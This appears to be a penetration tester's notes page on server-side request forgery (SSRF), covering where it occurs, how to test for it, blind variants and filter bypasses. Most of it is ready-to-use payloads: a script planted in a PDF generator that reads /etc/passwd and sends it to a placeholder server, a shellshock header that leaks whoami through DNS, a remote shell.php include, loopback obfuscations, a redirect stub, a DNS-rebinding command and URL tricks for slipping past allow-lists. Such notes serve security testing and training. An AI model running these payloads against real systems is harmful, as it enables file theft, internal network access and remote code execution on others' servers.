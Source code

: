 # Content
- [What can SSRF vulnerabilities can lead to](#what-can-ssrf-vulnerabilities-can-lead-to)
- [Where to find SSRF](#where-to-find-ssrf-)
- [Testing if app vulnerable to SSRF](#testing-if-app-vulnerable-to-ssrf)
- [Blind SSRF](#blind-ssrf)
    - [blind SSRF via pdf generator](#blind-ssrf-via-pdf-generator)
    - [blind SSRF via User-Agent header](#blind-ssrf-via-user-agent-header-shellshock)
- [Bypass](#bypass)
    - [SSRF with blacklist-based input filters](#ssrf-with-blacklist-based-input-filters)
    - [SSRF with whitelist-based input filters](#ssrf-with-whitelist-based-input-filters)



## What can SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## Where to find SSRF :
- Parts of HTTP requests, including (URLs,paramters,headrs,...)
     - Referer header
     - User-Agent header
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is local and remote file inclusion

- try diffrient protocols (http,file,ftp,..)
- fuzz ports
- do not forget to url encode if going through more than one app (ex:trible url encode)
- DNS loopkup for server you own
- Load External files (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```
- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin
```
- Attack other back-end systems
```
http://192.168.0.68/admin
```




## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

#### localhost obfuscation
```bash
Localhost Address Block: 127.0.0.0 - 127.255.255.255
Shortened IP Adress: 127.1
Prolonged IP Address: 127.000000000000000.1
All Zeroes: 0.0.0.0
Shortened All Zeroes: 0
Decimal Representation: 2130706433
Octal Representation: 0177.0000.0000.0001
Hex Representation: 0x7f000001
IPv6 loopback address: 0:0:0:0:0:0:0:1 (also ::1)
IPv4-mapped IPv6 loopback address: ::ffff:127.0.0.1


```
#### DNS resolution
```
1) Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
2) Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
    - 127.0.0.1.nip.io  
    - 0x7f000001.nip.io (hexadecimal IP notation)
    - Something.google.com.127.0.0.1.nip.io
3) localtest.me == 127.0.0.1
4) lvh.me == 127.0.0.1
5) Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
```


#### Obfuscating blocked strings using URL encoding or case variation.
#### using different different protocols.
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://
ftp://
data:text/plain;base64,L2V0Yy9wYXNzd2Q=  (if the backend use the input to construct another url we can use data:// to include /etc/passwd directly)

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
#### HTTP redirects
```php
<?php header('Location: http://127.0.0.1/'); ?>
```
then host it
```bash
php -S 0.0.0.0:80
```

#### DNS Rebinding
- [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
![Screenshot_11](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ff384973-5cfe-4690-8113-853869acea7a)

- running our domain on our own DNS server We can then conduct the DNS rebinding attack using a simple Python script such as [DNSrebinder](https://github.com/mogwailabs/DNSrebinder) or [FakeDns](https://github.com/Crypt0s/FakeDns)

- Frequently, companies establish their own personalized internal DNS servers, alongside various administrative utilities like `Webmin`, `Pihole`, `PRTG Network Monitor`, and` Manageengine`. If these assets are compromised, we can exploit them to redirect DNS traffic towards our rogue DNS server.


change the dns server to our own
![Screenshot_12](https://github.com/kiro6/penetration-testing-notes/assets/57776872/5dea2a30-066e-40ab-8eed-0ca6abc641f5)

then run dnsrebinder
```
sudo python3 dnsrebinder.py --domain attacker.com --rebind 127.0.0.1 --ip 1.1.1.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
```

### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters
some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

